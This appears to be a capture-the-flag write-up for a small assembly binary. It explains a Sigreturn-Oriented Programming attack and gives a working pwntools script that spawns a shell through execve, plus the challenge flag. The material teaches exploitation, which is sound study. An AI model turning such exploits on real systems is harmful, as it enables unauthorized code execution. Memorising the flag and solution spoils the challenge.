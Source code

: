 ```yaml
---
title: Size Doesn't Matter
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flags: p_ctf{t1n¥_c0d3_bu+_str0ng_3n0ugh!}
draft: false
---
```

It would be a good idea to start by identifying the given binary type.

```sh
$ file chall                
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ strings chall         
I'm small, aren't I? Nobody expects me to do anything...
I guess I'll just stay here, too small to matter. Figures.
Guess I was right... I'm just too small for you to care.
test.asm
msg_len
msg2
msg2_len
msg3
msg3_len
buffer
__bss_start
_edata
_end
.symtab
.strtab
.shstrtab
.text
.data
.bss
```

It turns out that the given binary file is very small, in the `strings` command we can see that there is `test.asm` which may be the source code of this binary. So it can be concluded that this binary is a binary compiled from assembly.

It's time for us to do binary analysis using **IDA Pro**.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  size_t v4; // rdx
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  char v8; // [rsp-1F4h] [rbp-1F4h] BYREF

  v0 = sys_write(1u, msg, 0x3AuLL);
  v1 = sys_read(0, &v8, 0x1F3uLL);
  v2 = sys_write(1u, msg2, 0x3CuLL);
  v3 = sys_read(0, _bss_start, 0x10uLL);
  v5 = sys_read(0, _bss_start, v4);
  v6 = sys_write(1u, msg3, 0x39uLL);
  v7 = sys_exit(0);
}
```

From the assembly code above, we can see that this binary performs `read` and `write` syscalls to read input from the user and write output to the user.

![alt text](image.png)

But there is something interesting here where in the `sys_read(0, _bss_start, 0x10uLL);` section we can see that this binary reads 0x10 bytes (16 bytes) of user input to `_bss_start` which is part of the `.bss` section. After `sys_read` is complete, this binary does `sys_read(0, _bss_start, v4);` where when `sys_read` is called it will use the previous register used in `sys_read(0, _bss_start, 0x10uLL);`.

When `sys_read(0, _bss_start, 0x10uLL);` is finished being called then the `eax` or `rax` register will contain the same value as the number of bytes read by `sys_read`.

So `sys_read(0, _bss_start, v4);` will not always be `sys_read` but it will change to another `syscall` according to the value in the `rax` register.

After searching the internet there is a technique called [Sigreturn-Oriented Programming (SROP)](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop) where we can do the `syscall` we want using this technique.

We can create **Sigreturn Frame** using `SigreturnFrame` from the `pwn` library which will help us to create the payload we want. With `SigreturnFrame` we can set the register we want and do the syscall we want.

Here is the python script that I used to complete this challenge. We store the **Sigreturn Frame** in the first `sys_read` in the `v8` variable on the stack. After that we do a second `sys_read` to write the string `/bin/sh` to `_bss_start` (But we adjust it first so that the output of `rax` becomes the `sys_rt_sigreturn` syscall number 15) which we then use in the **Sigreturn Frame** to do the `execve` syscall which will run the shell.

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('microp.ctf.prgy.in', 1337, ssl=True)

# gdb.attach(r, '''
#     b *_start+108
#     c
# ''')

frame = SigreturnFrame()
frame.rax = 59          # execve syscall number
frame.rdi = 0x4020B0    # Pointer to "/bin/sh" string (_bss_start)
frame.rsi = 0           # NULL argv
frame.rdx = 0           # NULL envp
frame.rip = 0x401098    # syscall instruction

payload_stage1 = bytes(frame).ljust(0x1F3, b'\x00')

r.recvuntil(b"I'm small, aren't I? Nobody expects me to do anything...")
r.send(payload_stage1)

payload_stage2 = b"/bin/sh\x00".ljust(15, b'\x00')

r.recvuntil(b"I guess I'll just stay here, too small to matter. Figures.")
r.send(payload_stage2) # Write /bin/sh to _bss_start

r.interactive()
r.close()
```

